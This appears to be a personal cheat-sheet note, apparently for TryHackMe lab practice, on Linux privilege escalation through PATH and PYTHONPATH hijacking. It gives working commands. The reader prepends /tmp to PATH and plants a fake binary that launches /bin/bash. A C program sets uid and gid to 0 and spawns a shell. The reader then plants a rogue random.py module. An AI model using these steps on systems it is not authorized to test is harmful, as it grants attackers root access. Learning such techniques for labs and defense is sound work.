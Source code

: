 Make sure the $PATH$ is in **CORRECT ORDER**!
```sh
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

If not then change it to this order :-
```sh
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

---
Read this, [TryHackMe | Linux Privilege Escalation](https://tryhackme.com/room/linprivesc)

```sh
export PATH=/tmp:$PATH
# OR
export PATH=.:$PATH       # This searches for file from the current directory first
```

```sh
echo '/bin/bash' > thm
chmod 777 thm
```

**For Python :-**
```python
#!/usr/bin/python3

import os
import sys

try:
	os.system("thm")
except:
    sys.exit()
```


**For C :-**
```C
#include<unistd.h>
void main(){
setuid(0);
setgid(0);
system("/bin/sh");
}
```


```sh
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

---
# PYTHONPATH Variable
Check for modules getting imported in the file
```python
# Example
import random                                                                                                      

poem = """The sun was shining on the sea, 
Shining with all his might:
He did his very best to make          
The billows smooth and bright —
And this was odd, because it was
The middle of the night."""  

for i in range(10):
    line = random.choice(poem.split("\n"))
```

![[1_EX3c8zeaNX7jTD2LJ8B1cg.webp]]

So it’s clear that we’ve got the write privilege in the **Top/highest** (the directory from where the script is being executed) Precedence Path of the `PYTHONPATH` variable.
Create a `random.py` file in the same directory of the file & put up a **shell** in it!
OR
If you can't create a file in that directory, check if the *imported module can be edited* or not!
